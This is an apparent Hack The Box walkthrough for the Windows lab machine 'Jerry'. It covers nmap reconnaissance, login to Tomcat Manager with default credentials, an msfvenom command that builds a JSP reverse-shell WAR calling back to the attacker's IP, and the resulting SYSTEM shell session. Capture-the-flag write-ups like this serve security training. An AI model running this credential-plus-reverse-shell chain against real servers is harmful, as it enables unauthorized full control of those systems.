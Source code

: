 # HTB - Jerry
## OS - Windows

I started with an nmap scan of Jerry (IP address is 10.10.10.95).

```
$nmap -sC -sV -oN jerry.nmap 10.10.10.95
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-30 18:39 PST
Nmap scan report for 10.10.10.95
Host is up (0.11s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.50 seconds

```

Port 8080 is open and running Tomcat. It shows the default page for Tomcat. On the right side, I selected the "Manager App".

It asks for a login. I tried admin/admin and obviously it did not work. It showed a "403 access denied" page.


![Jerry-unauthorized](/images/jerry.png)

We see tomcat/s3cret somewhere in the middle of the page. 

We can login using this account and explore Tomcat manager. We see that we can upload our own war files.

![Jerry-Tomcat-Manager](/images/jerry-1.png)


Using msfvenom to upload a war file with reverse shell. 

```
$msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.28 LPORT=4444 -f war > jerry_shell.war
Payload size: 1091 bytes
Final size of war file: 1091 bytes

```

I uploaded this war file using Tomcat Manager. After that, I could see in the Manager that jerry_shell war had started.

To use this war file, I started a netcat listener on the attack host and browsed to http://10.10.10.95/jerry_shell. I saw that the shell started. 

The Tomcat is run with ntauthority/system privileges, so I got administrator access. Both the flags were in admin's desktop folder.

```
$nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\apache-tomcat-7.0.88

06/19/2018  03:07 AM    <DIR>          .
06/19/2018  03:07 AM    <DIR>          ..
06/19/2018  03:06 AM    <DIR>          bin
06/19/2018  05:47 AM    <DIR>          conf
06/19/2018  03:06 AM    <DIR>          lib
05/07/2018  01:16 PM            57,896 LICENSE
02/01/2021  02:00 AM    <DIR>          logs
05/07/2018  01:16 PM             1,275 NOTICE
05/07/2018  01:16 PM             9,600 RELEASE-NOTES
05/07/2018  01:16 PM            17,454 RUNNING.txt
06/19/2018  03:06 AM    <DIR>          temp
02/01/2021  02:09 AM    <DIR>          webapps
06/19/2018  03:34 AM    <DIR>          work
               4 File(s)         86,225 bytes
               9 Dir(s)  27,601,915,904 bytes free

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>cd ../ 
cd ../

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\

06/19/2018  03:07 AM    <DIR>          apache-tomcat-7.0.88
08/22/2013  05:52 PM    <DIR>          PerfLogs
06/19/2018  05:42 PM    <DIR>          Program Files
06/19/2018  05:42 PM    <DIR>          Program Files (x86)
06/18/2018  10:31 PM    <DIR>          Users
06/19/2018  05:54 PM    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)  27,601,915,904 bytes free

C:\>cd Users
cd Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users

06/18/2018  10:31 PM    <DIR>          .
06/18/2018  10:31 PM    <DIR>          ..
06/18/2018  10:31 PM    <DIR>          Administrator
08/22/2013  05:39 PM    <DIR>          Public
               0 File(s)              0 bytes
               4 Dir(s)  27,601,915,904 bytes free

C:\Users>cd Administrator
cd Administrator

C:\Users\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator

06/18/2018  10:31 PM    <DIR>          .
06/18/2018  10:31 PM    <DIR>          ..
06/19/2018  05:43 AM    <DIR>          Contacts
06/19/2018  06:09 AM    <DIR>          Desktop
06/19/2018  05:43 AM    <DIR>          Documents
06/19/2018  05:43 AM    <DIR>          Downloads
06/19/2018  05:43 AM    <DIR>          Favorites
06/19/2018  05:43 AM    <DIR>          Links
06/19/2018  05:43 AM    <DIR>          Music
06/19/2018  05:43 AM    <DIR>          Pictures
06/19/2018  05:43 AM    <DIR>          Saved Games
06/19/2018  05:43 AM    <DIR>          Searches
06/19/2018  05:43 AM    <DIR>          Videos
               0 File(s)              0 bytes
              13 Dir(s)  27,601,915,904 bytes free

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:09 AM    <DIR>          flags
               0 File(s)              0 bytes
               3 Dir(s)  27,601,915,904 bytes free

C:\Users\Administrator\Desktop>cd flags	
cd flags

C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,601,915,904 bytes free

C:\Users\Administrator\Desktop\flags>type *txt
type *txt
user.txt
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx

root.txt
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```



